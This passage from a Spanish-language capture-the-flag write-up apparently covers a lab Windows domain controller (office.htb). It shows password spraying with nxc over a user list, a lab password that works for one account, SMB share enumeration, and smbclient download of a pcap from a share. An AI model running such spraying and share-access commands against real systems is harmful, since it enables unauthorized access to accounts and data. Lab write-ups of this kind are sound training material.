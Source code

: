Nos armamos una lista, y probando esta lista de usuarios...

```bash
❯ nxc smb 10.10.11.3 -u list.txt -p 'H0lOgrams4reTakIng0Ver754!'
SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.3      445    DC               [-] office.htb\ewhite:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\etower:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [-] office.htb\dmichael:H0lOgrams4reTakIng0Ver754! STATUS_LOGON_FAILURE 
SMB         10.10.11.3      445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754! 
```

### tstark ^ web_account

dwolfe puede ver un recurso compartido al que antes no teníamos acceso

```bash
❯ nxc smb 10.10.11.3 -u dwolfe -p 'H0lOgrams4reTakIng0Ver754!' --shares
SMB         10.10.11.3      445    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:office.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.3      445    DC               [+] office.htb\dwolfe:H0lOgrams4reTakIng0Ver754! 
SMB         10.10.11.3      445    DC               [*] Enumerated shares
SMB         10.10.11.3      445    DC               Share           Permissions     Remark
SMB         10.10.11.3      445    DC               -----           -----------     ------
SMB         10.10.11.3      445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.3      445    DC               C$                              Default share
SMB         10.10.11.3      445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.3      445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.3      445    DC               SOC Analysis    READ            
SMB         10.10.11.3      445    DC               SYSVOL          READ            Logon server share 
```

Supuestamente de analisis para el SOC, contiene una simple captura pcap

```bash
❯ smbclient -U 'dwolfe%H0lOgrams4reTakIng0Ver754!' "//10.10.11.3/SOC Analysis"
Cant load /etc/samba/smb.conf - run testparm to debug it
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed May 10 14:52:24 2023
  ..                                DHS        0  Wed Feb 14 06:18:31 2024
  Latest-System-Dump-8fbc124d.pcap      A  1372860  Sun May  7 20:59:00 2023

		6265599 blocks of size 4096. 1227471 blocks available
```

Al descargarla a nuestro equipo y abrirla en un software como Wireshark, podemos apreciar que se trata de una captura de tráfico que se hizo en la red corporativa de este controlador de dominio.
